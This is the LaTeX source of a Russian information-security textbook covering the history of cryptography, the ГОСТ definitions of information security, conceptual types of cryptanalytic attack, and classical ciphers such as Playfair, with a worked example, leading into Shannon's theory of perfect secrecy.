\input{_settings}
\selectlanguage{russian}

\title{Защита информации \\ Учебное пособие}
\author{Габидулин Эрнст Мухамедович \\ Кшевецкий Александр Сергеевич \\ Колыбельников Александр Иванович \\ Владимиров Сергей Михайлович}
\date{
 %   \textbf{\textsc{Черновой вариант. Может содержать ошибки.}} \\
%    \today
}
\maketitle
\setcounter{page}{3}

\newpage
%\thispagestyle{empty}
\setcounter{tocdepth}{2}
\tableofcontents
%\thispagestyle{empty}
\newpage

%\lhead[\leftmark]{}
%\rhead[]{\rightmark}

\input{foreword}

\chapter{Краткая история криптографии}

Вслед за возникновением письменности появилась задача обеспечения секретности передаваемых сообщений путём так называемой тайнописи. Поскольку государства возникали почти одновременно с письменностью, дипломатия и военное управление требовали секретности.

Данные о первых способах тайнописи весьма отрывочны. В древнеиндийских трактатах встречаются упоминания о способах преобразования текста, некоторые из них можно отнести к криптографии. Предполагается, что тайнопись была известна в Древнем Египте и Вавилоне. До нашего времени дошли литературные свидетельства того, что секретное письмо использовалось в Древней Греции: в Древней Спарте использовалась скитала\index{скитала} (<<шифр Древней Спарты>>\index{шифр!Древней Спарты}, рис.~\ref{fig:Skytale}), одно из древнейших известных криптографических устройств. Скитала представляла собой длинный цилиндр, на который наматывалась полоска пергамента. Текст писали поперёк ленты вдоль цилиндра. Для расшифрования был необходим цилиндр аналогичного диаметра. Считается, что ещё Аристотель предложил метод криптоанализа скиталы: не зная точного диаметра оригинального цилиндра, он предложил наматывать пергамент на конус до тех пор, пока текст не начнёт читаться. Следовательно, Аристотеля можно называть одним из первых известных криптоаналитиков.

\begin{figure}[t]
	\centering
	\subcaptionbox{Скитала. Рисунок современного автора. Рисунок участника Wikimedia Commons Luringen, доступно по \href{https://creativecommons.org/licenses/by-sa/3.0/deed.ru}{лицензии CC BY-SA 3.0}\label{fig:Skytale}}{\includegraphics[width=0.60\textwidth]{pic/Skytale}}
	~~
	\subcaptionbox{Аристотель (384 -- 322~гг.~до~н.~э.). Римская копия оригинала Лисиппа}{\includegraphics[width=0.35\textwidth]{pic/Aristotle_Altemps_Inv8575}}
	\caption{Скитала\index{скитала}, <<шифр Древней Спарты>>\index{шифр!Древней Спарты}}
\end{figure}

В Ветхом Завете, в том числе в книге пророка Иеремии (VI~век до~н.~э.), использовалась техника скрытия отдельных кусков текста, получившая название <<атбаш>>\index{шифр!атбаш}.

\begin{itemize}
	\item \texttt{Иер. 25:26}: и всех царей севера, близких друг к другу и дальних, и все царства земные, которые на лице земли, а царь Сесаха выпьет после них.
	\item \texttt{Иер. 51:41}: Как взят Сесах, и завоевана слава всей земли! Как сделался Вавилон ужасом между народами!
\end{itemize}

В этих отрывках слово <<Сесах>> относится к государству, неупоминаемому в других источниках, но если в написании слова <<Сесах>> на иврите (\cjRL{/s/sK}) заменить первую букву алфавита на последнюю, вторую на предпоследнюю и так далее, то получится <<Бавель>> (\cjRL{bbl}) -- одно из названий Вавилона. Таким образом, с помощью техники <<атбаш>> авторы манускрипта скрывали отдельные названия, оставляя б\'{о}льшую часть текста без шифрования. Возможно, это делалось в том числе и для того, чтобы не иметь проблем с распространением текстов на территории, подконтрольной Вавилону. Шифр <<атбаш>>\index{шифр!атбаш} можно рассматривать как пример моноалфавитного афинного шифра (см. раздел~\ref{section-affine-cipher}).

Сразу несколько техник защищённой передачи сообщений связывают с именем Энея Тактика, полководца IV~века до~н.~э.
\begin{itemize}
	\item \emph{Диск Энея} представлял собой диск небольшого диаметра с отверстиями, которые соответствовали буквам алфавита. Отправитель протягивал нитку через отверстия, тем самым кодируя сообщение. Диск с ниткой отправлялся получателю. Особенностью диска Энея было то, что, в случае захвата гонца, последний мог быстро выдернуть нитки из диска, фактически уничтожив передаваемое сообщение.
	\item \emph{Линейка Энея} представляла собой линейку с отверстиями, соответствующими буквам греческого алфавита. Нитку также продевали через отверстия, тем самым шифруя сообщение. Однако после продевания на нитке завязывали узлы. После окончания нитку снимали с линейки и отправляли получателю. Чтобы восстановить сообщение, получатель должен был иметь линейку с таким же порядком отверстий, как та, на которой текст шифровался. Подобный метод можно назвать моноалфавитным шифром (см. раздел~\ref{section-substitution-cipher}), исходное сообщение -- открытым текстом, нитку с узлами -- шифртекстом, а саму линейку -- ключом шифрования.
	\item Ещё одна техника, \emph{книжный шифр Энея}, состояла в прокалывании небольших отверстий в книге или манускрипте рядом с буквами, соответствующими буквам исходного сообщения. Этот метод относится уже не к криптографии, а к стеганографии -- науке о скрытии факта передачи сообщения.
\end{itemize}

Ко II~веку до~н.~э. относят изобретение в Древней Греции квадрата Полибия (рис.~\ref{fig:polubios-square}). Метод позволял передавать информацию на большие расстояния с помощью факелов. Каждой букве алфавита ставилось в соответствие два числа от 1 до 5 (номера строки и столбца в квадрате Полибия). Эти числа обозначали количество факелов, которое было необходимо поднять на сигнальной башне. Квадрат Полибия относится к методам кодирования информации: переводу информации из одного представления (греческого алфавита) в другое (число факелов) для удобства хранения, обработки или передачи.

\begin{figure}[t]
	\centering
\begin{tabular}{ || c || c | c | c | c | c ||}
\hline
\hline
  & 1 & 2 & 3 & 4 & 5 \\
\hline
\hline
1 & A & B & $\Gamma$ & $\Delta$ & E \\
\hline
2 & Z & H & $\Theta$ & I & K \\
\hline
3 & $\Lambda$ & M & N & $\Xi$ & O  \\
\hline
4 & $\Pi$ & P & $\Sigma$ & T & $\Upsilon$ \\
\hline
5 & $\Phi$ & X & $\Psi$ & $\Omega$ & \\
\hline
\hline
\end{tabular}
  \caption{Квадрат Полибия для греческого алфавита}
  \label{fig:polubios-square}
\end{figure}

Известен метод шифрования, который использовался Гаем Юлием Цезарем (100--44~гг.~до~н.~э.). Он получил название <<шифр Цезаря>>\index{шифр!Цезаря} и состоял в замене каждой буквы текста на другую букву, следующую в алфавите через две позиции (см. раздел~\ref{section-caesar-cipher}). Данный метод относится к классу моноалфавитных шифров.

В VIII веке~н.~э. была опубликована <<Книга тайного языка>> Аль-Халиля аль-Фарахиди, в которой арабский филолог описал технику криптоанализа, сейчас известную как атака по открытому тексту. Он предположил, что первыми словами письма, которое было отправлено византийскому императору, была фраза <<Во имя Аллаха>>, что оказалось верным и позволило расшифровать оставшуюся часть письма. Абу аль-Кинди (801--873~гг.~н.~э.) в своём <<Трактате о дешифровке криптографических сообщений>> показал, что моноалфавитные шифры, в которых каждому символу кодируемого текста ставится в однозначное соответствие какой-то другой символ алфавита, легко поддаются частотному криптоанализу. В тексте трактата аль-Кинди привёл таблицу частот букв, которую можно использовать для дешифровки шифртекстов на арабском языке, использующих моноалфавитный шифр.

\begin{figure}[t]
	\centering
	\subcaptionbox{Статуя Леона Баттиста Альберти (\langit{Leone Battista Alberti}, 1404--1472) во дворе Уффици. Фото участника it.wiki Frieda, доступно по \href{https://creativecommons.org/licenses/by-sa/3.0/deed.ru}{лицензии CC-BY-SA 3.0}}{\includegraphics[width=0.50\textwidth]{pic/Leon_Battista_Alberti_1}}
	~
	\subcaptionbox{Фрагмент оформления гробницы Иоганна Тритемия (\langlat{Iohannes Trithemius}, 1462--1516)}{\includegraphics[width=0.45\textwidth]{pic/Trithemiusmoredetail}}
	\caption{Отцы западной криптографии}
\end{figure}

Итальянский архитектор Леон Баттиста Альберти, проанализировав использовавшиеся в Европе шифры, предложил для каждого текста использовать не один, а несколько моноалфавитных шифров. Однако Альберти не смог предложить законченной идеи полиалфавитного шифра, хотя его и называют отцом западной криптографии. В истории развития полиалфавитных шифров до XX века также наиболее известны немецкий аббат XVI века Иоганн Тритемий и английский учёный XIX века Чарльз Уитстон (\langen{Charles Wheatstone}, 1802--1875). Уитстон изобрёл простой и стойкий способ полиалфавитной замены, называемый шифром Плейфера\index{шифр!Плейфера} в честь лорда Плейфера, способствовавшего внедрению шифра. Шифр Плейфера использовался вплоть до Первой мировой войны.

\begin{figure}[t]
	\centering
	\subcaptionbox{<<Энигма>>\label{fig:enigma}}{\includegraphics[width=0.35\textwidth]{pic/EnigmaMachine}}
	~~
	\subcaptionbox{<<Лоренц>> (без кожуха)\label{fig:lorenz}}{\includegraphics[width=0.60\textwidth]{pic/Lorenz-SZ42-2}}
	\caption{Криптографические машины Второй мировой войны}
\end{figure}

Роторные машины XX века позволяли создавать и реализовывать устойчивые к <<наивному>> взлому полиалфавитные шифры. Примером такой машины является немецкая <<Энигма>>\index{Энигма}, разработанная в конце Первой мировой войны (рис.~\ref{fig:enigma}). Период активного применения <<Энигмы>> пришёлся на Вторую мировую войну. Хотя роторные машины использовались в промышленных масштабах, криптография, на которой они были основаны, представляла собой всё ещё искусство, а не науку. Отсутствовал научный базис надёжности криптографических инструментов. Возможно, это было одной из причин успеха криптоанализа <<Энигмы>>, который сначала был достигнут в Польше в <<Бюро шифров>>, а потом и в <<Блетчли-парке>> в Великобритании. Польша впервые организовала курсы криптографии не для филологов и специалистов по немецкому языку, а для математиков, хотя и знающих язык весьма вероятного противника. Трое из выпускников курса — Мариан Реевский, Генрих Зыгальский и Ежи Рожицкий — поступили на службу в «Бюро шифров» и получили первые результаты успешного криптоанализа. Используя математику, электромеханические приспособления и данные французского агента Asche (Ганс-Тило Шмидт), они могли дешифровывать значительную часть сообщений вплоть до лета 1939 года, когда вторжение Германии в Польшу стало очевидным. Дальнейшая работа по криптоанализу <<Энигмы>> в центре британской разведки <<Station~X>>\index{Station X} (<<Блетчли-парк>>\index{Блетчли-парк}) связана с именами таких известных математиков, как Гордон Уэлчман и Алан Тьюринг. Кроме <<Энигмы>> в центре проводили работу над дешифровкой и других шифров, в том числе немецкой шифровальной машины <<Лоренц>> (рис.~\ref{fig:lorenz}). Для целей её криптоанализа был создан компьютер Colossus, имевший 1500 электронных ламп, а его вторая модификация -- Colossus Mark II -- считается первым в мире программируемым компьютером в истории ЭВМ.

Середина XX века считается основной вехой в истории науки о защищённой передаче информации и криптографии. Эта веха связана с публикацией двух статей Клода Шеннона: <<Математическая теория связи>> (\langen{"A Mathematical Theory of Communication"}, 1948, \cite{Shannon:1948:MTCa, Shannon:1948:MTCb}) и <<Теория связи в секретных системах>> (\langen{"Communication Theory of Secrecy Systems"}, 1949, \cite{Shannon:1949:CTS}). В данных работах Шеннон впервые определил фундаментальные понятия в теории информации, а также показал возможность применения этих понятий для защиты информации, тем самым заложив математическую основу современной криптографии.

Кроме того, появление электронно-вычислительных машин кардинально изменило ситуацию в криптографии. С одной стороны, вычислительные способности ЭВМ открыли совершенно новые возможности реализации шифров, недоступных ранее из-за их высокой сложности. С другой стороны, аналогичные возможности стали доступны и криптоаналитикам. Появилась необходимость не только в создании шифров, но и в обосновании того, что новые вычислительные возможности не смогут быть использованы для взлома новых шифров.

В 1976 году появился шифр DES (\langen{Data Encryption Standard})\index{шифр!DES}, который был принят как стандарт США. DES широко использовался для шифрования пакетов данных при передаче в компьютерных сетях и системах хранения данных. С 90-х годов параллельно с традиционными шифрами, основой которых была булева алгебра, активно развиваются шифры, основанные на операциях в конечном поле. Широкое распространение персональных компьютеров и быстрый рост производительности ЭВМ и объёма передаваемых данных в компьютерных сетях привели к замене в 2002 году стандарта DES на более стойкий и быстрый в программной реализации стандарт -- шифр AES (\langen{Advanced Encryption Standard})\index{шифр!AES}. Окончательно DES был выведен из эксплуатации как стандарт в 2005 году.

В беспроводных голосовых сетях передачи данных используются шифры с малой задержкой шифрования и расшифрования на основе посимвольных преобразований -- так называемые \emph{потоковые шифры}\index{шифр!потоковый}.

Параллельно с разработкой быстрых шифров в 1976~г. появился новый класс криптосистем, так называемые \emph{криптосистемы с открытым ключом}\index{криптосистема!с открытым ключом}. Хотя эти новые криптосистемы намного медленнее и технически сложнее симметричных, они открыли принципиально новые возможности: создание общего ключа с использованием открытого канала и \emph{электронной подписи}, которые составили основу современной защищённой связи в Интернете.



\chapter{Основные понятия и определения}
\selectlanguage{russian}

Изучение курса <<Защита информации>> необходимо начать с определения понятия \emph{<<информация>>}. В теоретической информатике \emph{информация} -- это любые сведения, или цифровые данные, или сообщения, или документы, или файлы, которые могут быть переданы \emph{получателю информации} от \emph{источника информации}. Можно считать, что информация передаётся по какому-либо каналу связи с помощью некоторого носителя, которым может быть, например, распечатка текста, диск или другое устройство хранения информации, система передачи сигналов по оптическим, проводным линиям или радиолиниям связи и~т.\,д.

\emph{Защита информации} -- это\footnote{Строго говоря, определение защиты информации даётся в официальном стандарте ГОСТ Р 50922-2006, <<Защита информации. Основные термины и определения>>~\cite{GOST-50922-2006}, согласно которому \emph{защита информации} -- это деятельность, направленная на предотвращение утечки защищаемой информации, несанкционированных и непреднамеренных воздействий на защищаемую информацию. Однако мы пользуемся определением, основанным на понятии <<безопасность информации>> из того же стандарта: \emph{безопасность информации} -- это состояние защищённости информации, при котором обеспечиваются ее \emph{конфиденциальность}, \emph{доступность} и \emph{целостность}.} обеспечение \emph{целостности}, \emph{конфиденциальности} и \emph{доступности} информации, передаваемой или хранимой в какой-либо форме. Информацию необходимо защищать от нарушения её целостности и конфиденциальности в результате вмешательства \emph{нелегального пользователя}. В российском стандарте ГОСТ Р 50.1.056-2005 приведены следующие определения~\cite{GOST-2005}:
\begin{itemize}
	\item \emph{целостность информации}\index{целостность} -- состояние информации, при котором отсутствует любое ее изменение, либо изменение осуществляется только преднамеренно субъектами, имеющими на него право;
	\item \emph{конфиденциальность}\index{конфиденциальность} -- состояние информации, при котором доступ к ней осуществляют только субъекты, имеющие на него право;
	\item \emph{доступность}\index{доступность} -- состояние информации, при котором субъекты, имеющие права доступа, могут реализовать их беспрепятственно.
\end{itemize}

Другой стандарт ГОСТ Р ИСО/МЭК 13335-1-2006~\cite{GOST-13335-1-2006} определяет \emph{информационную безопасность} как все аспекты, связанные с определением, достижением и поддержанием \emph{конфиденциальности}, \emph{целостности}, \emph{доступности}, \emph{неотказуемости}, \emph{подотчетности}, \emph{аутентичности} и \emph{достоверности} информации или средств ее обработки. То есть в дополнение к предыдущему определению, на защиту информации в области информационных технологий возлагаются дополнительные задачи:
\begin{itemize}
	\item обеспечение \emph{неотказуемости} -- способность удостоверять имевшие место действие или событие так, чтобы эти события или действия не могли быть позже отвергнуты;
	\item обеспечение \emph{подотчётности} -- способность однозначно прослеживать действия любого логического объекта;
	\item обеспечение \emph{аутентичности} -- способность гарантировать, что субъект или ресурс идентичны заявленным;\footnote{Аутентичность применяется к таким субъектам, как пользователи, к процессам, системам и информации.}
	\item обеспечение \emph{достоверности} -- способность обеспечивать соответствие предусмотренному поведению и результатам;
\end{itemize}

Стандарт ГОСТ Р 50922-2006~\cite{GOST-50922-2006}, хотя и не вводит прямой классификации методов защиты информации, даёт следующие их определения.
\begin{itemize}
	\item \emph{Правовая защита информации}. Защита информации правовыми методами, включающая в себя разработку законодательных и нормативных правовых документов (актов), регулирующих отношения субъектов по защите информации, применение этих документов (актов), а также надзор и контроль за их исполнением.
	\item \emph{Техническая защита информации (ТЗИ)}. Защита информации, заключающаяся в обеспечении некриптографическими методами безопасности информации (данных), подлежащей (подлежащих) защите в соответствии с действующим законодательством, с применением технических, программных и программно-технических средств.
	\item \emph{Криптографическая защита информации}. Защита информации с помощью её криптографического преобразования.
	\item \emph{Физическая защита информации}. Защита информации путём применения организационных мероприятий и совокупности средств, создающих препятствия для проникновения или доступа неуполномоченных физических лиц к объекту защиты.
\end{itemize}

В рамках данного пособия в основном остановимся на криптографических методах защиты информации. Они помогают обеспечить \emph{конфиденциальность} и \emph{аутентичность}. В сочетании с правовыми методами защиты информации они помогают обеспечить \emph{неотказуемость} действий, а в сочетании с техническими -- \emph{целостность информации} и \emph{достоверность}.

При изучении криптографических методов защиты информации используются дополнительные определения. В целом науку о создании, анализе и использовании криптографических методов называют \emph{криптологией}. Её разделяют на \emph{криптографию}, посвящённую разработке и применению криптографических методов, и \emph{криптоанализ}, который занимается поиском уязвимостей в существующих методах. Данное разделение на криптографию и криптоанализ (и, соответственно, разделение на \emph{криптографов} и \emph{криптоаналитиков}) условно, так как создать хороший криптографический метод невозможно без умения анализировать его потенциальные уязвимости, а поиск уязвимостей в современных криптографических методах нельзя осуществить без знания методов их построения.

Попытка криптоаналитика нарушить свойство криптографической системы по обеспечению защиты информации (например, получить информацию вопреки свойству обеспечения конфиденциальности) называется \emph{криптографической атакой} (\emph{криптоатакой}). Если данная попытка оказалась успешной, и свойство было нарушено или может быть нарушено в ближайшем будущем, то такое событие называется \emph{взломом криптосистемы} или \emph{вскрытием криптосистемы}. Конкретный метод криптографической атаки также называется \emph{криптоанализом} (например, линейный криптоанализ, дифференциальный криптоанализ и~т.~д.). Криптосистема называется \emph{криптостойкой}, если число стандартных операций для её взлома превышает возможности современных вычислительных средств в течение всего времени ценности информации (до 100 лет).

Для многих криптографических примитивов существует атака полным перебором\index{атака!полным перебором}, либо аналогичная, которая подразумевает, что если выполнить очень большое количество определённых операций (по одной на каждое значение из области определения одного из аргументов криптографического метода), то один из результатов укажет непосредственно на способ взлома системы (например, укажет на ключ для нарушения конфиденциальности, обеспечиваемой алгоритмом шифрования, или на допустимый прообраз для функции хэширования, приводящий к нарушению аутентичности и целостности). В этом случае под \emph{взломом криптосистемы} понимается построение алгоритма криптоатаки с количеством операций меньшим, чем планировалось при создании этой криптосистемы (часто, но не всегда, это равно именно количеству операций при атаке полным перебором\footnote{Например, сложность построения второго прообраза для хеш-функций на основе конструкции Меркла~---~Дамгарда составляет $2^n / \left|M\right|$ операций, тогда как полный перебор -- $2^n$. См. раздел~\ref{section-stribog}}). Взлом криптосистемы – это не обязательно, например, реально осуществлённое извлечение информации, так как количество операций может быть вычислительно недостижимым как в настоящее время, так и в течение всего времени защиты. То есть могут существовать системы, которые формально взломаны, но пока ещё являются криптостойкими.

Далее рассмотрим модель передачи информации с отдельными криптографическими методами.

\input{model_of_the_transmission_system_with_crypto}

\section[Классификация]{Классификация криптографических механизмов}

\input{classification_by_symmetry}
\subsection{Шифры замены и перестановки}

Шифры по способу преобразования открытого текста в шифртекст разделяются на шифры замены и шифры перестановки.

\input{substitution_ciphers}

\input{permutation_ciphers}

\input{composite_ciphers}

\subsection{Примеры современных криптографических примитивов}

Приведём примеры названий некоторых современных криптографических примитивов, из которых строят системы защиты информации.
\begin{itemize}
    \item DES\index{шифр!DES}, AES, ГОСТ 28147-89, Blowfish\index{шифр!Blowfish}, RC5\index{шифр!RC5}, RC6\index{шифр!RC6} -- блочные симметричные шифры, скорость обработки -- десятки мегабайт в секунду.
    \item A5/1, A5/2, A5/3\index{шифр!A5}, RC4\index{шифр!RC4} -- потоковые симметричные шифры с высокой скоростью. Семейство A5 применяется в мобильной связи GSM, RC4 -- в компьютерных сетях для SSL-соединения между браузером и веб-сервером.
    \item RSA\index{шифр!RSA} -- криптосистема с открытым ключом для шифрования.
    \item RSA\index{электронная подпись!RSA}, DSA\index{электронная подпись!DSA}, ГОСТ Р 34.10-2001\index{электронная подпись!ГОСТ Р 34.10-2001} -- криптосистемы с открытым ключом для электронной подписи.
    \item MD5\index{хэш-функция!MD5}, SHA-1\index{хэш-функция!SHA-1}, SHA-2\index{хэш-функция!SHA-2}, ГОСТ Р 34.11-94\index{хэш-функция!ГОСТ Р 34.11-94} -- криптографические хэш-функции.
\end{itemize}

\section{Методы криптоанализа и типы атак}
\selectlanguage{russian}

Нелегальный пользователь-криптоаналитик получает информацию путём дешифрования. Сложность этой процедуры определяется числом стандартных операций, которые надо выполнить для достижения цели. \emph{Двоичной сложностью}\index{сложность!двоичная} (или битовой сложностью) алгоритма называется количество двоичных операций, которые необходимо выполнить для его завершения.

Рассмотрим основные сценарии работы криптоаналитика $E$. В первом сценарии криптоаналитик может осуществлять подслушивание и (или) перехват сообщений. Его вмешательство не нарушает целостности информации: $Y=\widetilde{Y}$, где Y -- информация, как случайная величина, до вмешательства, $\widetilde{Y}$ -- после вмешательства. Эта роль криптоаналитика называется \emph{пассивной}. Так как он получает доступ к информации, то здесь нарушается конфиденциальность.

Во втором сценарии роль криптоаналитика \emph{активная}. Он может подслушивать, перехватывать сообщения и преобразовывать их по своему усмотрению: задерживать, искажать с помощью перестановок пакетов, устраивать обрыв связи, создавать новые сообщения и т.~п. В этом случае выполняется условие $Y \neq \widetilde{Y}$. Это значит, что одновременно нарушается целостность и конфиденциальность передаваемой информации.

Приведём примеры пассивных и активных атак:
\begin{itemize}
    \item Атака <<\emph{человек посередине}>>\index{атака!<<человек посередине>>} (\langen{man-in-the-middle}) подразумевает криптоаналитика, который разрывает канал связи, встраиваясь между $A$ и $B$, получает сообщения от $A$ и от $B$, а от себя отправляет новые, фальсифицированные сообщения. В результате $A$ и $B$ не замечают, что общаются с $E$, а не друг с другом.
    \item Атака \emph{воспроизведения}\index{атака!воспроизведения} (\langen{replay attack}) предполагает, что криптоаналитик может записывать и воспроизводить шифртексты, имитируя легального пользователя.
    \item Атака на \emph{различение} сообщений\index{атака!на различение} означает, что криптоаналитик, наблюдая одинаковые шифртексты, может извлечь информацию об идентичности исходных открытых текстов.
    \item Атака на \emph{расширение} сообщений\index{атака!на расширение} означает, что криптоаналитик может дополнить шифртекст осмысленной информацией без знания секретного ключа.
    \item \emph{Фальсификация} шифртекстов\index{атака!фальсификацией} криптоаналитиком без знания секретного ключа.
\end{itemize}

Часто для нахождения секретного ключа криптоатаки строят в предположениях о доступности дополнительной информации. Приведём примеры:
\begin{itemize}
    \item Атака на основе известного открытого текста\index{атака!с известным открытым текстом} (\langen{chosen plaintext attack, CPA}) предполагает, что криптоаналитик имеет возможность выбирать открытый текст и получать для него соответствующий шифртекст.
    \item Атака на основе известного шифртекста\index{атака!с известным шифртекстом} (\langen{chosen ciphertext attack, CCA}) предполагает возможность криптоаналитику выбирать шифртекст и получать для него соответствующий открытый текст.
\end{itemize}

Обязательным требованием к современным криптосистемам является устойчивость ко всем известным типам атак: пассивным, активным и с дополнительной информацией.


%Приведём примеры возможных вариантов работы активного криптоаналитика.
%\begin{itemize}
%\item Криптоаналитик имеет $m$ шифрованных сообщений $Y_{1},Y_{2},\ldots Y_{m}$ и пытается определить ключ или прочитать открытый текст $X_{1},X_{2},\ldots X_{m}.$
%\item Криптоаналитик имеет несколько пар открытого и шифрованного текстов
%
%$(Y_{1},X_{1}),(Y_{2}X_{2}),\ldots (Y_{m}X_{m})$ и пытается дешифровать остальной текст или определить алгоритм шифрования или определить ключ.
%\item
%\item
%\item
%\end{itemize}

Для защиты информации от активного криптоаналитика и обеспечения её целостности дополнительно к шифрованию сообщений применяют имитовставку\index{имитовставка}. Для неё используют обозначение $\MAC$ (\langen{message authentication code}). Как правило, $\MAC$ строится на основе хэш-функций, которые будут описаны далее.

Существуют ситуации, когда пользователи $A$ и $B$ не доверяют друг другу. Например, $A$ -- банк, $B$ -- получатель денег. $A$ утверждает, что деньги были переведены, $B$ - что перевода не было. Решение задачи аутентификации и неотрицаемости состоит в обеспечении \emph{электронной подписью}\index{электронная подпись} каждого из абонентов. Предварительно надо решить задачу о генерировании и распределении секретных ключей.

В общем случае системы защиты информации должны обеспечивать:
\begin{itemize}
    \item конфиденциальность\index{конфиденциальность} (защиту от наблюдения),
    \item целостность\index{целостность} (защиту от изменения),
    \item аутентификацию (защиту от фальсификации пользователя и сообщений),
    \item доказательство авторства информации (доказательство авторства и защита от его отрицания)
\end{itemize}
как со стороны получателя, так и со стороны отправителя.

Важным критерием для выбора степени защиты является сравнение стоимости реализации взлома для получения информации и экономического эффекта от владения ей. Очевидно, что если стоимость взлома превышает ценность информации, взлом нецелесообразен.

%Сценарии защиты информации
%   Сценарий 1. A -- передающая сторона. B -- принимающая сторона. E -- пассивный
%криптоаналитик, который может подслушивать передачу, но не может вмешиваться
%в процесс передачи. Цель защиты: обеспечение конфиденциальности. Средства
%-- методы шифрования с секретным ключом (симметричные системы шифрования)
%и методы шифрования с открытым ключом (асимметричные системы шифрования).
%Сценарий 2. E -- активный криптоаналитик, который может изменять, удалять и вставлять
%сообщения или их части. Цель защиты -- обеспечение конфиденциальности (не
%всегда) и обеспечение целостности. Средства -- методы шифрования и добавление
%имитовставки\index{имитовставка} (Message Authentication Code -- $\MAC$).
%Сценарий 3. A и B не доверяют друг другу. Цель защиты -- аутентификация пользователя.
%Средства -- электронная подпись.


\input{The_minimum_key_lengths}


\chapter{Классические шифры}

В главе приведены наиболее известные \emph{классические} шифры, которыми можно было пользоваться до появления роторных машин. К ним относятся такие шифры, как шифр Цезаря\index{шифр!Цезаря}, шифр Плейфера\index{шифр!Плейфера}, шифр Хилла\index{шифр!Хилла} и шифр Виженера\index{шифр!Виженера}. Они наглядно демонстрируют различные классы шифров.

\input{monoalphabetic_ciphers}

\section{Биграммные шифры замены}\index{шифр!биграммный}
\selectlanguage{russian}

Если при шифровании преобразуются по две буквы открытого текста, то такой шифр называется \emph{биграммным}\index{шифр!биграммный} шифром замены. Первый биграммный шифр был изобретён аббатом Иоганном Тритемием и опубликован в 1508-м году. Другой биграммный шифр изобретён в 1854 году Чарльзом Витстоном. Лорд Лайон Плейфер (\langen{Lyon Playfair}) внедрил этот шифр в государственных службах Великобритании, и шифр был назван шифром Плейфера\index{шифр!Плейфера}.

Опишем шифр Плейфера\index{шифр!Плейфера}. Составляется таблица для английского алфавита (буквы \texttt{I}, \texttt{J} отождествляются), в которую заносятся буквы перемешанного алфавита, например в виде таблицы, представленной ниже. Часто перемешивание алфавита реализуется с помощью начального слова, в котором отбрасываются повторяющиеся символы. В нашем примере начальное слово \texttt{playfair}. Таблица имеет вид:

\begin{center}
    \begin{tabular}{ccccc}
        p & l & a & y & f  \\
        i & r & b & c & d  \\
        e & g & h & k & m  \\
        n & o & q & s & t  \\
        u & v & w & x & z  \\
    \end{tabular}
\end{center}

Буквы открытого текста разбиваются на пары. Правила шифрования каждой пары состоят в следующем.

\begin{itemize}
    \item Если буквы пары не лежат в одной строке или в одном столбце таблицы, то они заменяются буквами, образующими с исходными буквами вершины прямоугольника. Первой букве пары соответствует буква таблицы, находящаяся в том же столбце. Пара букв открытого текста \texttt{we} заменяется двумя буквами таблицы \texttt{hu}. Пара букв открытого текста \texttt{ew} заменяется двумя буквами таблицы \texttt{uh}.
    \item Если буквы пары открытого текста расположены в одной строке таблицы, то каждая буква заменяется соседней справа буквой таблицы. Например, пара \texttt{gk} заменяется двумя буквами \texttt{hm}. Если одна из этих букв -- крайняя правая в таблице, то её <<правым соседом>> считается крайняя левая в этой строке. Так, пара \texttt{to} заменяется буквами \texttt{nq}.
    \item Если буквы пары лежат в одном столбце, то каждая буква заменяется соседней буквой снизу. Например, пара \texttt{lo} заменяется парой \texttt{rv}. Если одна из этих букв крайняя нижняя, то её <<нижним соседом>> считается крайняя верхняя буква в этом столбце таблицы. Например, пара \texttt{kx} заменяется буквами \texttt{sy}.
    \item Если буквы в паре одинаковые, то между ними вставляется определённая буква, называемая <<буквой-пустышкой>>. После этого разбиение на пары производится заново.
\end{itemize}

\example
Используем шифр Плейфера\index{шифр!Плейфера} и зашифруем сообщение "\texttt{Wheatstone was the inventor}". Исходное сообщение, разбитое на биграммы, показано в первой строке таблицы. Результат шифрования, также разбитый на биграммы, приведён во второй строке.
\begin{center} \begin{tabular}{|*{12}c|}
    \hline
    wh & ea & ts & to & ne & wa & st & he & in & ve & nt & or \\
    \hline
    aq & ph & nt & nq & un & ab & tn & kg & eu & gu & on & vg \\
    \hline
\end{tabular} \end{center}
\exampleend

Шифр Плейфера\index{шифр!Плейфера} не является криптографически стойким. Несложно найти ключ, если известны пара открытого текста и соответствующего ему шифртекста. Если известен только шифртекст, криптоаналитик может проанализировать соответствие между частотой появления биграмм в шифртексте и известной частотой появления биграмм в языке, на котором написано сообщение. Такой частотный анализ помогает дешифрованию.


\input{hills_cipher}

% \subsection{Омофонные замены}
%
% Омофонными заменами называют криптопримитивы, в основе которых лежит замена групп символов открытого текста $M$ на группу символов $C$ с использованием ключа $K$. Такой метод шифрования вносит неоднозначность между $M$ и $C$, это позволяет защититься от методов частотного криптоанализа.
%  \subsection{шифрокоды}
%  Шифрокоды -- это класс шифров сочетающих в себе свойства кодов и помехозащищённости со свойствами шифра и обеспечения конфиденциальности.

\input{vigeneres_cipher}

\input{polyalphabetic_cipher_cryptanalysis}

\chapter{Совершенная криптостойкость}\label{chapter:perfect_secure_systems}\index{криптостойкость!совершенная|(}
\selectlanguage{russian}

Рассмотрим модель криптосистемы, в которой Алиса выступает источником сообщений $m \in \group{M}$. Алиса использует некоторую функцию шифрования, результатом вычисления которой является шифртекст $c \in \group{C}$:
	\[c = E_{K_1}\left(m\right).\]

Шифртекст $c$ передаётся по открытому каналу легальному пользователю Бобу, причём по пути он может быть перехвачен нелегальным пользователем (криптоаналитиком) Евой.

Боб, обладая ключом расшифрования $K_2$, расшифровывает сообщение с использованием функции расшифрования:
	\[m' = D_{K_2}\left(c \right).\]

Рассмотрим теперь исходное сообщение, передаваемый шифртекст и ключи шифрования (и расшифрования, если они отличаются) в качестве случайных величин, описывая их свойства с точки зрения теории информации. Далее полагаем, что в криптосистеме ключи шифрования и расшифрования совпадают.

Будем называть криптосистему \emph{корректной}, если она обладает следующими свойствами:
\begin{itemize}
	\item легальный пользователь имеет возможность однозначно восстановить исходное сообщение, то есть:
					\[H \left( M | C K \right) = 0, \]
					\[m' = m\]
	\item выбор ключа шифрования не зависит от исходного сообщения:
					\[ I \left( K ; M \right) = 0, \]
					\[ H \left( K | M \right) = H \left( K \right). \]
\end{itemize}

Второе свойство является в некотором виде условием на возможность отделить ключ шифрования от данных и алгоритма шифрования.

\section[Определения]{Определения совершенной криптостойкости}

Понятие совершенной секретности (или стойкости) введено американским учёным Клодом Шенноном. В 1949 году он закончил работу, посвящённую теории связи в секретных системах~\cite{Shannon:1949:CTS}. Эта работа вошла составной частью в собрание его трудов, вышедшее в русском переводе в 1963 году~\cite{Shannon:1963}. Понятие о стойкости шифров по Шеннону связано с решением задачи криптоанализа по одной криптограмме.

